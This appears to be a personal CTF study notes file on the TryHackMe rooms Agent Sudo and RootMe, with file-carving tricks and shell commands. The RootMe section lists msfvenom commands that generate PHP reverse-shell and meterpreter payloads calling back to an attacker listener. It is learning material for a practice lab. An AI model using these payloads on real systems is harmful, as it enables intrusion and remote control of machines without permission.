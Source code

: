 # R

* Remember for web/general/security
* .todo: metasploit dns sqlmap
* .todo: windows Linux web shell
* web general | terminology may have to be extracted

## Overconfidence

--- https://tryhackme.com/room/agentsudoctf

* `echo {A..Z} | tr ' ' '\n'`
* `echo {0..9} | tr ' ' '\n'`
* `dd bs=34562 skip=1 if=cutie.png.zip of=agent.zip`. The file was an image followed by a zip. (https://unix.stackexchange.com/questions/6852/best-way-to-remove-bytes-from-the-start-of-a-file)
* `7z x agent.zip` (https://stackoverflow.com/questions/28383199/error-while-unzipping-a-file-in-shell-script-need-pk-compat-v5-1-can-do-v4)
* Reverse search images (note below xxx)
* python2 / python3
* writeups

--- https://tryhackme.com/room/rrootme

* `gobuster -t 50`
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups
